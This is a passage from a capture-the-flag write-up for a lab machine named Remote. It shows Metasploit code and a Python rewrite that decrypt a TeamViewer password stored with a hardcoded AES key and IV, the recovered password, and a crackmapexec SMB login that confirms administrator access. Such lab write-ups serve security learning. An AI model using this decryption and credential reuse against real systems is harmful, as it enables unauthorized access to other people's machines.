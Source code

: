         key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
        iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
        aes = OpenSSL::Cipher.new("AES-128-CBC")
        begin
            aes.decrypt
            aes.key = key
            aes.iv = iv
            plaintext = aes.update(encrypted_data)
            password = Rex::Text.to_ascii(plaintext, 'utf-16le')
            if plaintext.empty?
                return nil
            end
        rescue OpenSSL::Cipher::CipherError => e
            print_error("Unable to decrypt the data. Exception: #{e}")
        end



It's using AES128 in CBC mode with a static key and iv. I can easily
recreate this in a few lines of Python:



    #!/usr/bin/env python3

    from Crypto.Cipher import AES

    key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 
                        19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 
                        126, 141, 55, 107, 38, 57, 78, 91])

    aes = AES.new(key, AES.MODE_CBC, IV=iv)
    password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")

    print(f"[+] Found password: {password}")



Running it finds a password:



    root@kali# python3 decrypt_tvpass.py 
    [+] Found password: !R3m0te!



### Shell

That password happens to work for the administrator account on Remote:



    root@kali# crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'
    SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:REMOTE) (signing:False) (SMBv1:False)
    SMB         10.10.10.180    445    REMOTE           [+] REMOTE\administrator:!R3m0te! (Pwn3d!)


